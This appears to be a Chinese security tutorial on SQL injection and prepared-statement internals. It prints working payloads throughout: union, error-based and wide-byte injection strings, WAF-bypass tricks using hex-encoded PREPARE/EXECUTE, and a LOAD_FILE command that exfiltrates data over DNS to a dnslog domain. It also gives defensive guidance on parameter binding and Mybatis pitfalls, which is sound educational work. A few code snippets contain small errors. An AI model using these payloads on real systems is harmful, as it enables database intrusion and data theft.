




# 深入理解SQL注入与预编译（一）

https://www.nowcoder.com/issue/tutorial?zhuanlanId=zjbE7m&uuid=9d9987c816214f62b9266276da65e11f

https://blog.nowcoder.net/n/be73b8f592504ae8b1d00368433061be


## 前言

SQL注入是Web安全界地位很高的一个漏洞，它把矛头对准网站最为重要的数据库，利用成本低而危害巨大。若说一个普通开发人员有那么点儿安全意识，那一定和SQL注入有关。如今随着Web安全逐渐被重视，大家安全意识提升，同时各种预编译框架、ORM层出不穷，SQL注入已不像10年前那么泛滥，那么SQL注入的前世今生是怎样的？在这个预编译时代，SQL注入为何仍未销声匿迹？而预编译的底层又有哪些细节需要安全工程师知晓？这将是本文所重点探究之处。


## 注入原理剖析

**sql注入的本质**

SQL注入的本质是『注入』，注入类攻击可被称为Web安全漏洞第一家族，内含SQL注入、命令注入、代码注入等，连XSS漏洞的本质其实都是HTML/JavaScript注入。而SQL注入自然是发生在SQL语句中的注入攻击。


马三立先生有一段很著名的相声：

妈妈：『看着衣服，有人偷告诉妈妈』

小偷：『小孩你认识我吗？我叫逗你玩』

小孩：『妈妈有人偷咱家衣服』

妈妈：『谁啊？』

小孩：『逗你玩！』

妈妈：『介孩子！』

原本妈妈(数据库)想获取的是一个人名，即『数据』。但经过小偷(黑客)精心构造，小孩(SQL语句)将『逗你玩』(Payload)直接反馈给妈妈，导致妈妈理解成了一个『动作』。**由数据到动作**便是SQL注入的精髓所在，这会使黑客在数据库中任意执行SQL命令，不论后续有多少的奇技淫巧与绕过姿势，这样的本质总是不变的。一个简单的例子：

```sql
mysql_query("SELECT * FROM nowcoder WHERE id = $id");
```

当黑客传入精心构造的数据 1 UNION SELECT version(), user()，整条语句会变为：

```sql
mysql_query("SELECT * FROM nowcoder WHERE id = 1 UNION SELECT version(), user()");
```

导致变为一个联合查询，将数据库的版本与当前用户泄露。

如果注入点被包裹在引号内，就传入引号，闭合SQL语句中原本的引号，使得攻击使用的Payload逃逸到引号外，成为SQL语法的一部分。

因此，SQL注入漏洞防御的核心就是阻止用户输入由『数据』变为『动作』。如使用反斜杠将用户输入中的引号转义，使其不能闭合SQL语句中原有的引号，无法影响引号外的部分，也就只能作为数据；又如PHP对付数字型SQL注入常用的intval，使得无论用户输入什么，最终都只能变为数字，或是使用addslashes转义引号，防止SQL语句中原本的引号被闭合使Payload逃逸到引号外；而预编译更是做到了极致，通过预先生成SQL语句语法树的方式，使得传入的数据永远也无法成为一个动作，关于其原理与对抗手段，文章将会在后续详细探讨。


## sql注入的类别

**布尔盲注**可谓是最基础的一种注入，其本质就是使SQL语句永真或永假，使页面上显示的内容不同，然后逐个字符的去判断，以此来得到数据库中的所有数据。

**时间盲注**是从布尔盲注的基础上发展而来，即如果存在盲注，但不论SQL语句是用真还是永假，页面都没有回显或没有明显变化，如何去判断SQL语句此时是真是假呢？可以使用sleep函数使SQL语句延迟一段时间后再返回结果，如果sleep函数与整个语句是且(and)的关系，那么为真的语句就会延时，为假的语句就不会延时。其他的部分与布尔盲注其实是相同的。在面试中，经常会被问到『如果sleep函数被禁用，如何进行时间盲注？』答案是使用[benchmark()](https://blog.csdn.net/m0_51330619/article/details/120392450)函数，它的本意是向用户报告执行某个表达式的时间，使用它大批量执行一个任意表达式，也可达到延时的效果。

**报错注入**则是通过floor、extractvalue、updatexml等函数来实现的，这些函数有一个共同的特点，便是完成相应的功能需要进行两次及以上的操作。因此我们使其成功查询数据后进行处理的那次操作出错，也就将查出的数据暴露在了错误信息中，从而使我们得到想要的数据。

**联合查询**导致的注入则是原本的select语句后可以通过union关键字来拼接一个自定义select，从而为所欲为，查询任意想查询的数据。并且只需要自定义select所查询的列数与原select语句查询的列数相同，即可将数据正常显示在页面上。

从实战来看，这四种类型的注入点查询数据的速度为联合查询>报错注入>布尔盲注>时间盲注，因为前两者可以直接查询想要的数据，而后两者则需要大量的试错，尤其是时间盲注，会将整个过程拉的很长，但时间盲注并不是没有优点。

我曾在面试中遇到过这样一个问题：如果你只有一次试验的机会，如何判定一个数据输入点是否存在SQL注入？答案是使用时间盲注，如sleep(4)，如果真的存在注入，则肯定会延时4秒再显示结果。其他类型的注入都非一次试验而能确定存在的，并且一个数据输入点只要存在注入，必定存在时间盲注。


## 注入功守道

### WAF的本质

如果说我在SQL注入的本质中提到的三种SQL注入防御方式是对症下药，那么使用WAF进行防御就像是隔靴搔痒，无法根治漏洞。WAF的目的是在不可信数据被传给应用程序处理前，先将其过滤为可信数据。这里要提到一个概念：信任边界，即应用程序内的已定义的数据是处于信任边界内的，而任何来自用户输入的数据都处于信任边界外，属于不可信数据。华为的安全编码规范曾明确提出任何跨越信任边界传递的数据都需要被校验，因为所有的不可信数据都可能来自黑客攻击。

WAF通过过滤或拦截用户输入中的SQL片段来防御SQL注入，如黑客输入的数据为**1 AND 1=1**，WAF侦测到SQL关键字AND，就会将用户输入过滤为**1 1=1**，或干脆直接拦截掉本次请求。这将会导致一个问题，便是当正常用户输入**YOU AND ME**时，请求也会被过滤和拦截，这将会严重破坏用户体验。但如果将校验的关键字减少，又会带来许多绕过WAF进行攻击的方式。

由此可见，企业Web安全其实不是纯粹的Web安全技术，会夹杂很多用户体验与安全之间的权衡，甚至会考虑到程序猿们的开发体验。很多规模庞大复杂的祖传代码由于年久失修，会有各种各样的神奇BUG，如果重构，可能会带来彻底的崩溃。这个时候，游离在整个应用程序之外的WAF便是保证祖传代码安全性的最好选择。

综上，WAF就是个既有用也没用的矛盾体，让安全工程师们又爱又恨，绕过层出不穷却不得不用，只好缝缝补补又一年。


### 来自HTTP头的注入

从上述防御姿势可以看出，很多网站要么使用WAF，要么在每处用户输入做严格过滤。

很多WAF其实都是按照用户输入的传入形式来配置防御的，比如GET请求，POST请求可能是两套不同的规则，都会专注于对传入参数的防御，那么如果此时攻击来自于Cookie呢？WAF不会过滤Cookie中的危险字符，但Web应用在进行数据库操作时，确实可能使用到Cookie中的值，此时我们只需使用Cookie值进行注入即可绕过WAF。

把这个概念推广开来，当HTTP请求中的其他请求头的值开始参与数据库操作时，都是存在注入风险的。比如Web应用将访问者的IP地址存入数据库，会对HTTP请求中的`x-forwarded-for、x-remote-ip、x-client-ip`获取后进行INSERT操作，一般的开发者可能只会将来自`$_GET、$_POST`的变量使用addslashes进行过滤，却不会意识到这种来自于`$_COOKIE、$_SERVER`的变量同样存在安全风险。


### 可执行注释

分享一个关于WAF有趣的点，当用户输入为：

```sql
an selection
```

select作为单词的一部分出现，为了保证用户体验，WAF不会进行拦截，于是，可以有一下绕过方式：

```sql
SELECT/*a*/*/*a*/FROM/*a*/nowcoder;
```

使用注释来替代空格，使得整条SQL语句伪装成一个长单词。WAF为了防止这种情况出现，会将注释去除，变为：

```sql
SELECT * FROM nowcoder;
```

这下可以拦截了，但MySQL对标准SQL进行了扩展，包含了一些自己的特性，为了保证在其它数据库中不被执行，MySQL将这些特殊句语放在特殊的注释中：

```sql
/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
```

这种以`/*!`开头的语句在MySQL中是可以被执行的，而在其他的数据库中却会被当做注释，在业界通常被称为『内联查询』。但这样的名称是不准确的，并没有这样的官方称谓，且内联查询另有其人，在这里我们仅称其为可执行注释。借由可执行注释的特性，我们可以发送这样的请求：

```sql
/*!SELECT * FROM*/nowcoder;


+------+-------+
| id   | name  |
+------+-------+
|    1 | test  |
|    2 | test2 |
|    3 | test3 |
+------+-------+
3 rows in set (0.00 sec)
```

在不指定数据库的通用WAF看来，这样的输入仅仅只有一个nowcoder，从而放行，但数据库处理时却会查出nowcoder表的所有数据。


### SQL注入中的OOB

假设有这样一个场景：A知道一个秘密，但是碍于各种原因，不能直接告诉B，此时B要求A将秘密告诉C，B再从C处获得秘密即可。这便是OOB(Out-Of-Band)，意为请求外带，在渗透测试中，若目标服务器上A的关键数据无法直接回显，安全人员可以让安全服务器主动对另一台受控制的服务器C发出请求，并将关键数据写在请求中（通常是URL中），安全人员通过查看C上的访问记录，便可从URL中获取关键数据了。




OOB可使用在命令注入、SSRF、XXE等漏洞利用过程中，在SQL注入中，MySQL数据库无法直接对外发起请求，但MySQL中的LOAD_FILE函数却可以解析域名，而域名在解析过程中，是可以在DNS服务器上留下记录的，安全人员只需通过自建DNS服务器，即可使用OOB获取关键数据。

OOB通常用于盲注中，盲注由于通过逐字符猜解的方式获得数据，非常缓慢，而大量请求更会直接导致被WAF封禁。此时便可以结合OOB进行SQL注入。使用OOB的前提条件为MySQL的secure_file_priv变量为空，当secure_file_priv为NULL或指定路径时，都无法无法利用LOAD_FILE函数进行OOB，secure_file_priv的状态可通过下面的命令进行查看：

```sql
show variables like '%secure%';
```

而很遗憾，secure_file_priv的默认状态是NULL，但当Web应用本身使用了LOAD_FILE函数时，secure_file_priv通常会被设为空，此时就可以进行OOB了。

```sql
select load_file(concat('\\\\',hex((select database())),'.kylnth.dnslog.cn/abc')); 
# hex()将值转为16进制，/abc的目的是让load_file去加载abc资源
```

上述命令中的dnslog.com为安全人员拥有的网站，此条命令只会在dnslog.com的DNS服务器上留下解析记录，不会在网站服务器上留下访问日志。因此dnslog.com需要添加一条DNS记录，指向自建的DNS服务器，安全人员通过查看该自建DNS服务器的DNS解析记录即可获取该数据库当前用户名的hex编码，之后进行解码操作即可。进行hex编码是为了避免有域名允许范围之外的字符出现。关于load_file()函数域名解析：https://www.freebuf.com/articles/web/259023.html


### PDO中的多条执行

PDO是PHP官方提供的预编译解决方案，之所以不讲这个绕过姿势放在下篇预编译的章节中，是因为这不是PDO本身的绕过，而是错误使用PDO时对WAF的绕过。在PHP代码审计中，常常会见到PDO的不正确使用方式，如：

```sql
$pdo = new PDO("mysql:host=127.0.0.1;dbname=nowcoder;charset=gbk","root","123456");
$id = $_GET['id'];
$query = "SELECT * FROM nowcoder WHERE id = $id";
$stmt = $pdo->prepare($query);
$stmt->execute();
$r = $stmt->fetch();
print_r($r);
```

虽然使用了PDO，看起来也使用prepare进行了预编译，但其实参数id仍然是拼接进去的，并没有用到防止预编译的根本性操作——参数绑定。这是开发人员对于PDO特性的不理解所导致的后果，造成了SQL注入。如果在这样一个场景中，外层有非常牛逼的硬WAF或者软WAF，使用极为严格的过滤规则将常见关键字如SELECT、UPDATE、INSERT等全部过滤，甚至连逗号也不放行，我们应该如何绕过并进行注入？

PDO有一个有趣的特性：默认可以支持多条SQL执行。即我们完全可以在参数中传入1;SELECT user(), version()来注入新的SQL，但这里有一个问题，那就是仅有第一条SQL语句的结果会显示在页面上，即使我们注入的第二条SQL被执行，也无法获取其结果。不过没关系，我们可以使用INSERT或UPDATE语句，将数据插入到表中再查询出来。如nowcoder表中只有两条数据：

```sql
id  name
------------
1  niumei
2  dalao
```

我们就可以通过执行以下Payload将数据库版本插入为第三条语句：

```sql
1;INSERT nowcoder VALUES(3,version());
```

然后再使id=3将其查询出来即可。回到我们刚刚的问题，如何绕过严格过滤的WAF？我们可以利用MySQL的PREPARE关键字对INSERT语句做一个预编译，然后通过EXECUTE关键字执行预编译好的语句：

```sql
PREPARE a FROM 'INSERT nowcoder VALUES(4,version())';
EXECUTE a;
```

当然，这还是没有解决过滤关键字的问题，我们可以利用MySQL的特性，将真正的SQL语句使用hex函数转为16进制：

```sql
SET @x= 0x494E53455254206E6F77636F6465722056414C55455328342C76657273696F6E282929;
PREPARE a FROM @x;
EXECUTE a;
```

这样就完美绕过了WAF对SELECT、UPDATE、INSERT等常用关键字或逗号括号等字符的限制。如果想要杜绝这样的风险，只需拦截PREPARE、EXECUTE等关键字，或关闭PDO执行多条查询的功能即可。

关于PREPARE预编译：https://www.cnblogs.com/geaozhang/p/9891338.html

有关预编译的更多特性以及背后的原理，我将在下篇中详细讲解。


# 深入理解SQL注入与预编译（二）

## 特殊注入

### 二次注入

二次注入本质上是信任边界不清晰的问题，**最容易发生在靠WAF苟活的祖传代码上**。一般来说，WAF拦截的是用户输入，但如果攻击来自于数据库呢？很多开发者并没有意识到，从数据库中读取到的数据其实也是处于信任边界之外的，如果代码本身对于SQL注入攻击没有应对措施，很容易被二次注入。

如更新用户名的一个场景：

```php
$username = $_POST['username'];
$id = $_SESSION['id'];
mysql_query("UPDATE nowcoder SET uname = '$username' where id='$id'");
```

如果整个Web应用外没有WAF进行防御，这将是一个典型的UPDATE报错注入。当黑客将用户名设为`' or updatexml(1,concat(0x7e,(user())),0) or '`，所执行的SQL语句就会变为：

```sql
UPDATE nowcoder SET uname = ''or updatexml(1,concat(0x7e,(user())),0) or ''WHERE id = 1;
```

从而在报错提示中爆出当前数据库用户名：

```
ERROR 1105(HY000): XPATH syntax error: '~root@localhost'
```

当Web应用外层有WAF存在时，会检查用户输入，为了兼顾用户体验，不做过滤或拦截处理，而是转义引号，执行的SQL语句变为：

```sql
UPDATE nowcoder SET uname = '\' or updatexml(1,concat(0x7e,(user())),0) or \''WHERE id = 1
```

可以看到黑客传入的攻击Payload已失效，`'`被转义为`\'`后已经单纯变为一个单引号字符，不再具有闭合其他单引号的功能，于是整个Payload完全变为了一个字符串。若此时有另外一处获取用户写过的文章标题的功能由于需要跨表查询用到了这个用户名：

```php
$id=$_SESSION['id'];
//嵌套查询
mysql_query("SELECT title FROM passage WHERE uname = (SELECT uname FROM nowcoder WHERE id = $id)");
//或是使用JOIN
mysql_query("SELECT title FROM passage JOIN nowcoder WHERE passage.uname = nowcoder.uname AND nowcoder.id = $id");
```

以上的代码都是没问题的，但这里仅仅是举个简单易懂的例子，实际情况中，可能这个SQL非常复杂，可能是受一些场景限制，导致程序员不得不先将uname的值从nowcoder中取出来，再丢进passage表中查询：

```php
$id=$_SESSION['id'];
$query=mysql_query("SELECT uname FROM nowcoder WHERE id=$id");
$res=mysql_fetch_assoc(query);
$uname=res['uname'];
mysql_query("SELECT title FROM passage WHERE uname = '$uname'");
```

此时第4行中$uname的值为刚刚存入的' or updatexml(1,concat(0x7e,(user())),0) or '，那个具有闭合功能的单引号又回来了！



于是最后执行：

```sql
SELECT title FROM passage WHERE uname = ''or updatexml(1,concat(0x7e,(user())),0) or ''；
```

成功绕过WAF爆出当前用户名。


### 宽字节

宽字节在如今UTF-8编码盛行的时代已经很少露面了，但宽字节注入却是安全工程师校招面试中面试官最爱问的问题之一，在我所经历的几十场面试中，有60%以上涉及到了对宽字节注入的理解。

宽字节注入本质上是多字节编码的问题，很多PHP程序喜欢使用addslashes对用户输入进行转义，如果用户输入中存在`'`，则会被转义为`\'`，失去闭合其他引号的功能。但反斜杠也是可以被转义的，若可以在`\'`前添加一个反斜杠，使其变为`\\'`，第二个反斜杠便会因为被转义而失去了转义引号的功能，使得引号逃逸，重新拥有了闭合其他引号的能力，因此，**吃掉转义引号的反斜杠是宽字节注入的根本**。
最常规的宽字节注入场景便是当使用addslashes防御SQL注入，且Mysql数据库的连接层编码被设为GBK的时候：

```php
mysql_query("SET NAMES 'gbk'");
$id=addslashes($_GET['id']);
mysql_query("SELECT * FROM nowcoder WHERE id = $id");
```

黑客在地址栏传入`%df%27`，其中`%27`是`'`的URL编码。当addslashes侦测到引号时，进行转义，添加一个反斜杠(`%5c`)，变为`%df%5c%27`。而Mysql在解析SQL语句时使用了多字节的GBK编码，当首个字节（高位）的ASCII码大于128时，就被认为是一个汉字，每个汉字占两字节，而`%df`正好符合这一要求。于是`%df%5c%27`被解析为`%df%5c`%27，即`運'`，成功吃掉转义引号的反斜杠，造成单引号逃逸。



那么，将Mysql连接层编码设为UTF-8就可以完全避免宽字节注入了吗？看下面这个例子：

```php
mysql_query("SET NAMES 'UTF-8'"); 
$id=iconv("GBK", "UTF−8",addslashes($_GET['id'])); #将字符串$_GET['ID']从GBK 转换编码到UTF-8。
mysql_query("SELECT * FROM nowcoder WHERE id = $id");
```

这里Mysql连接层使用了UTF-8编码，为了避免乱码，使用iconv函数将用户提交的GBK字符经addslashes过滤后，先转为UTF-8，再拼入SQL语句，此时黑客只需在地址栏传入`%e5%5c%27`，即可再次使单引号逃逸，过成如下：



可以理解为只要在低位中含有`%c5`的编码中，都是可以进行注入的。

真正防御宽字节注入的方法，是在设置Mysql连接层编码为UTF-8的同时，使用mysql_real_escape_string函数来替代addslashes函数过滤用户输入，两者的不同之处在于mysql_real_escape_string会考虑当前Mysql连接层编码的字符集，避免出现宽字节注入的情况。

更多的信息：https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html


## 预编译时代的注入

### 预编译底层原理

安全面试中经常会有这样的问题：如何防御SQL注入？除了之前所列举的WAF、过滤转义等方式，预编译参数化查询才是最好的防御方式。

如今已经是预编译时代，上述手动用户输入的防SQL注入方式普遍存在于老代码中，新项目通常使用参数绑定的方式来处理SQL语句，如PHP的PDO，Java的PreparedStatement，或使用一些诸如Spring Data JPA、Hibernate、Mybatis的ORM框架。通俗的讲，预编译防止SQL注入的原理是提前编译SQL语句，将所有的用户输入都当做『数据』，而非『语法』，相信这也是大多数人所知晓的。一个面试官曾在面试中提出这样的问题：为什么预编译能让传入的数据只能是数据，它的底层原理是怎样的？

我们先从PHP的PDO说起。PDO针对预编译提供了两种模式：本地预编译和模拟预编译。模拟预编译并不是真正的预编译，它为了兼容一些不支持预编译的数据库，由PDO对用户输入转义后，拼接到SQL语句中，再将完整的语句交由数据库执行。这种行为可以理解为是新瓶装旧酒，它的预编译由PDO完成而非MySQL，**并且这是PDO的默认模式**。

执行以下PHP代码：

```php
$sql = 'SELECT * from keepblue where id = ?';
$stmt = $dbh->prepare($sql);
$stmt->bindParam(1, $_GET['id'], PDO::PARAM_INT);
$stmt->execute();
```

开启MySQL日志功能，并抓取SQL执行日志：

```
Id   	Command    	Argument
------------------------
4170	Connect 	root@localhoston nowcoder
4170	Query    	SELECT * FROM nowcoder WHERE id = '1\''
4170	Quit
```

如日志所示，数据库内部处理的整个过程只有连接、查询、退出三个操作,并没有预编译的过程。让我们开启本地预编译模式：

```php
$dbms = 'mysql';
$host = 'localhost';
$dbName = 'errortest';
$user = 'root';
$pass = 'root';
$dsn = "$dbms:host=$host;dbname=$dbName";
highlight_file(__FILE__);
if (isset($_GET['id']))
    try {
        $dbh = new PDO($dsn, $user, $pass);
        # 开启本地预编译
        $dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
        echo "connect successful<br/>";
        $sql = 'SELECT * from keepblue where id = ?';
        $stmt = $dbh->prepare($sql);
        $stmt->bindParam(1, $_GET['id'], PDO::PARAM_INT);
        $stmt->execute();
        print_r($stmt->fetchAll()) ;
        $stmt = null;
        $dbh = null;
    } catch (PDOException $e){
        die ("Error!: " . $e->getMessage() . "<br/>");
    }
```

```
Id   	Command    	Argument
------------------------
81 		Connect		root@localhost on errortest using TCP/IP
81 		Prepare		SELECT * from keepblue where id = ?
81 		Execute		SELECT * from keepblue where id = '1\'fa'
81 		Close 		stmt	
81 		Quit
```

如日志所示，整个流程分为五步，分别为连接、预编译、传入参数并执行、关闭预编译语句、退出。Java也面临同样的问题，虽然PreparedStatement名义上是SQL注入，但如果不深入了解，一般开发者并不会知晓其实所谓的预编译默认都是模拟预编译，即由PreparedStatement亲自将SQL语句转义为无危害的语句后，直接交由数据库执行。

那么既然默认情况下的模拟预编译是由PDO自行转义的，那么是否可能存在漏洞呢？是的，根据前文所介绍的内容，我们很容易就可以联想到宽字节注入。其实，在PHP 5.3.6之前，PDO确实存在宽字节注入的问题。为了方便同学们尝试，在这里放出较为完整的代码：

```php
<?php
$dbms = 'mysql';
$host = 'localhost';
$dbName = 'errortest';
$user = 'root';
$pass = 'root';
$dsn = "$dbms:host=$host;dbname=$dbName;charset=gbk";
highlight_file(__FILE__);
if (isset($_GET['id']))
    try {
        $dbh = new PDO($dsn, $user, $pass);
        $dbh->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
//        $dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
        $dbh->query('SET NAMES GBK');
        echo "connect successful<br/>";
        $sql = 'SELECT * from keepblue where id = ?';
        echo $sql;
        $stmt = $dbh->prepare($sql);
        $stmt->bindParam(1, $_GET['id'], PDO::PARAM_INT);
        $stmt->execute();
        print_r($stmt->fetchAll()) ;
        $stmt = null;
        $dbh = null;
    } catch (PDOException $e){
        die ("Error!: " . $e->getMessage() . "<br/>");
    }
```

此时只需在地址栏中输入：

```html
http://localhost/pdo.php?name=%bf%27%20UNION%20SELECT%20user(),version()--%20a
```

页面上就会暴露出当前数据库用户名与数据库版本（由于使用了联合查询，要求前后SELECT的列数相同，这里的nowcoder表存在两列），成功实现了宽字节注入。此代码在LNMP、MySQL 5.5.62、PHP 5.2.17下实测成功。由于前文详细讲述了宽字节注入的原理及细节，在这里就不进行细讲了，有兴趣的同学可以找《PDO防注入原理分析以及使用PDO的注意事项》这篇文章来看。虽然这是PDO一个巨大的破绽，但其条件较为苛刻，仍使用PHP低版本且使用GBK作为数据库连接层字符集的场景应该已经不多了。

PHP的预编译内藏乾坤，那么Java的会不会也存在这样的问题呢？同样做个实验：

```java
String JDBC_DRIVER = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://localhost:3306/errortest";
try{
    Class.forName(JDBC_DRIVER);
    Connection conn = DriverManager.getConnection(DB_URL,USER,PASS);
    String sql = "SELECT * FROM user WHERE id = ?";
    String Parameter = "1'";
    PreparedStatement ps = conn.prepareStatement(sql);
    ps.setString(1, Parameter);
    ps.executeQuery();
} catch(ClassNotFoundException e) {
    e.printStackTrace();
} catch(SQLException e) {
    e.printStackTrace();
}
```

截取部分日志如下：

```
Id   	Command    	Argument
------------------------
3479	Connect    	root@localhoston test using TCP/IP
3479	Query    	SHOW COLLATION
3479	Query    	SET NAMES latin1
3479	Query    	SET character_set_results = NULL
3479	Query    	SET autocommit=1
3479	Execute    	SELECT * FROM user WHERE id = '1\''
```

可以发现，使用了PrepareStatement却并未出现预编译的日志！原来，Java中也是默认由其本身进行转义后直接运行无危害语句的，若想使用真正的预编译，必须在连接数据库时加上useServerPrepStmts=true。如下，修改数据库链接字符串：

```java
String DB_URL = "jdbc:mysql://localhost:3306/errortestuseServerPrepStmts=true";
```

再次执行，截取部分日志如下：

```
Id   	Command    	Argument
------------------------
3480	Connect    	root@localhoston test using TCP/IP
3480	Query    	SHOW COLLATION
3480	Query    	SET NAMES latin1
3480	Query    	SET character_set_results = NULL
3480	Query    	SET autocommit=1
3480	Prepare  	SELECT * FROM user WHERE id = ?
3480	Execute  	SELECT * FROM user WHERE id = '1\''
```

可以看到日志中第8行已进行预编译。

了解到PHP与Java中关于预编译的一些知识后，我们来揭晓预编译可以防止SQL注入的原因。网上对此的回答大多都停留在预编译会将传入的数据只当做数据，而不当做SQL语句的层面，非常的浅显。为什么预编译会将数据只当成数据？它是如何进行时别的呢？事实是，它不需要进行识别。

**通常来说，一条SQL语句从传入到运行经历了生成语法树、执行计划优化、执行这几个阶段。在预编译过程中，数据库首先接收到带有预编译占位符?的SQL语句，解析生成语法树(Lex)，并缓存在cache中，然后接收对应的参数信息，从cache中取出语法树设置参数，然后再进行优化和执行。由于参数信息传入前语法树就已生成，执行的语法结构也就无法因参数而改变，自然也就杜绝了SQL注入的出现。这样一个深刻而简单的原因，相信已经解答了我们最开始的疑问。**


### **漫谈ORM**

说起ORM框架，最容易使人联想到的便是Spring Data JPA、Hibernate和Mybatis这些Java类库，其中坑比较多的是Mybatis。Mybatis在Java白盒代码审计中有一个著名的漏洞，就是在XML Mapper中使用`${}`绑定变量会导致SQL注入，绑定变量会导致SQL注入，因为的底层处理是直接拼接，而`#{}`的底层处理才是预编译参数绑定。那么这些开发者为什么不全用`#{}`反而使用`${}`？难道他们傻吗？真正的原因是，使用`#{}`绑定的变量在很多场景是不生效的。下面我们就来对此进行详细分析。

写过Mybatis插件的开发者知道，Mybatis会将XML Mapper中的绑定符转换为真正的预编译占位符，并将变量依次与其绑定，如：

```xml
<select id="getUsers"resultType="User">
    SELECT * FROM nowcoder
    WHERE id=${id}
</select>
```

Mybatis会处理为：

```sql
SELECT * FROM nowcoder WHERE id = ?;
```

真正的参数值储存在Parameters中，并且会提供一个名为ParameterMappings的Array提供占位符们与Parameters中值的绑定关系。假设有这样一个Mapper：

```xml
<select id="getUsers"resultType="User">
    SELECT * FROM nowcoder
    WHERE name LIKE '%#{name}%'
</select>
```

Mybatis便会处理为：

```sql
SELECT * FROM nowcoder WHERE name LIKE '%?%'; # % 匹配0或一个或多个字符，_ 代表一个单一字符
```

然而这样的预编译方式是错误的，mysql-connector会爆一个找不到占位符的错误。通过阅读mysql-connector处理预编译语句的源码，我们得知其会逐个字符检索占位符`?`，同时会计算字符是在引号内还是引号外，引号内的`?`是不算做占位符的。mysql-connector的用意很明显，就是为了避免字符串中正常的`?`被解析为占位符，这也导致了LIKE后无法正常预编译的结果。此时很多开发者会使用拼接的方式来解决这个问题，对应到Mybatis中也就变成了使用`$`。

真正的LIKE预编译可以这么写：

```sql
SELECT * FROM nowcoder WHERE name LIKE CONCAT('%', ?, '%');
```

这样占位符`?`在引号外，自然也就被成功检测到了。对应到Mybatis中，便是：

```xml
<select id="getUsers"resultType="User">
    SELECT * FROM nowcoder
    WHERE name LIKE CONCAT('%', #{name}, '%')
</select>
```

与此相同的还有IN语句，MySQL中不存在这样的预编译语法：

```sql
SELECT * FROM nowcoder WHERE id IN ?;
```

因此，也就不能使用类似于IN #{ids}的Mapper。正确的IN语句预编译如下：

```sql
SELECT * FROM nowcoder WHERE id IN (?, ?, ?, ?);
```

首先要知道IN后的参数**中有多少个元素，然后在语句中写入相同个数的占位符?，这一点在直接使用PreparedStatement时非常繁琐，需要编写额外的逻辑获取**中元素个数后拼接占位符，Mybatis对此提供了foreach标签：

```xml
<select id="getUsers"resultType="User">
    SELECT * FROM nowcoder
    WHERE id IN
    <foreach collection="ids" index="index" item="id" separator="," open="(" ,close=")">
        #{id}
    </foreach>
</select>
```

另外，表名与列名是不能被预编译的，这是由于在预编译生成语法树的过程中，预处理器在检查解析后的语法树时，会确定数据表和数据列是否存在，此两者必须为具体值，不能被占位符?所替代，这就导致了ORDER BY、GROUP BY后同样不能使用#，只能使用`$`。而对于此场景防止SQL注入，不建议使用过滤或转义手段，而是将表名、列名定义为常量，当用户输入匹配某一常量时，再将此常量传入SQL语句中，否则就使用默认值。

上述情况中，LIKE/IN的场景下一般写失效，而表名/列名动态传入的场景下没有`#`的对应写法，导致开发者使用`$`，这是安全从业者和开发者共同需要注意的地方。


### **预编译的破绽**

上个章节解释了LIKE '%?%'不生效的原因，这样的常规预编译不生效会带来很多拼接。那么由Mybatis推广开来，往往预编译不容易办到或办不到的场景，在日常渗透测试与代码审计中更应引起我们的关注。总结如下：

1.  白盒审计中PDO、PreparedStatement中开发者直接拼接SQL语句的行为，很多开发者以为使用了安全的类库就保证了安全，殊不知错误的用法仍会导致漏洞。
2.  白盒审计中ORDER BY后的表名动态传入的SQL语句；渗透测试中允许用户传入按某个字段进行排序的行为，这很有可能是直接拼接的。
3.  白盒审计中ORDER BY后排序方式(ASC/DESC)动态传入的SQL语句；渗透测试中允许用户选择正序倒序排列的行为，需要抓包查看是否直接传入ASC/DESC，若是则很有可能存在拼接行为。
4.  白盒审计中模糊查询是否拼接；渗透测试中针对搜索行为进行SQL注入测试。
5.  白盒审计中IN语句后是否拼接。

这样有针对性的进行试探和检查，能更有效的帮助我们找到漏洞。

